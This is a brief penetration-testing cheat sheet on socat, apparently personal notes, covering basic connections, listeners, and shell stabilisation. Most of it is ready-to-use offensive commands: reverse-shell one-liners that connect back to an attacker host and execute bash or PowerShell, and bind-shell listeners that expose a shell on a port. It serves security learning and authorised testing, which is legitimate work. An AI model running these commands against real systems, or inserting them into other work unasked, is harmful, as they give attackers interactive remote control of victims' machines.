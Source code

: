 
## Socat 
Socat is a command-line utility that establishes two bidirectional byte streams and transfers data between them. For penetration testing, it is similar to Netcat but has additional useful features.

[socat](https://linux.die.net/man/1/socat)

Socat requires:
1. "-" to transfer data between STDIO and remote host
1. protocol name
1. Any protocols, options, port ARE colon delimited

```bash
socat - TCP4:<remoteIP>:PORT

socat TCP4-LISTEN:8080 STDOUT

socat TCP4:ip:port EXEC:/bin/bash
```

### Reverse Shells
Start a listener:
```bash
socat TCP-L:<PORT> -                                 # connect regardless with '-'
socat -d -d TCP-LISTEN:8080 STDOUT                   # -d -d = increase verbosity of output#
socat TCP4-LISTEN:8080,fork file:filename.txt,create # create specifies that a new file will be created.
                                                     # fork create a child process once connection is made to the listener(multiple connections allowed)
```
Connect to reverse Shell:

```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

### Bind Shells

Start a bind listener
```bash
socat TCP-L:<PORT> EXEC:"bash -li"
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
Connect to target regardless:
```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

### Shell stablisation
```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
[CTRL+Z]
stty raw -echo; fg 
```
